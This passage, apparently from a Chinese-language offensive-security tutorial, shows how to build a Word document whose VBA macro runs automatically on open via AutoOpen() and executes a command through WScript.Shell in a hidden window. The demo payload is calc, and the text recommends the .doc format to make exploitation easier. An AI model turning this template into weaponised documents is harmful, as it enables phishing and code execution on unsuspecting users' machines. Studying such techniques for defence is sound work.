 默认代码是由函数 Sub MacroAttack() 组成，End Sub 是结尾，单引号是注释。更多语法见 [Visual Basic conceptual topics](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/visual-basic-conceptual-topics)。

如果想用户打开文档就自动执行宏，可以使用 `AutoOpen()`，打开文档后包含在内的表达式都会执行。至于说先定义 `AutoOpen()` 在里面调 `MacroAttack` 最后再定义 `MacroAttack` 会不会出现找不到这个函数，这个不用担心，都可以执行。

```plaintext
Sub MacroAttack()
  ' 定义变量 payload，类型为 String
    Dim payload As String

  ' 赋值字符串 calc
    payload = "calc"

  ' 将 payload 变量字符串作为命令运行
    CreateObject("Wscript.Shell").Run payload, 0
End Sub


Sub AutoOpen()
  MacroAttack
End Sub
```

编写完宏可以在代码编辑器中“文件 -> 保存”，或者直接在文档中保存文件都可以，文件后缀选择 doc、docm、dotm 其中之一（也可以提前创建好文件再写宏）。docm、dotm 在 Windows 11 默认找不到应用打开，不利于利用，最好选 doc 这样默认情况使用 Word 打开会很方便。

打开文档后会提示安全警告。

![安全警告 - 宏已被禁用.png](assets/1698895384-c040b1ba0dcda38358c98aa091a7afee.png)

点击“启用内容”，宏 `AutoOpen()` 会被执行。

![宏执行过程.gif](assets/1698895384-3881e65d72186e1e2bb3af8b354c1663.gif)
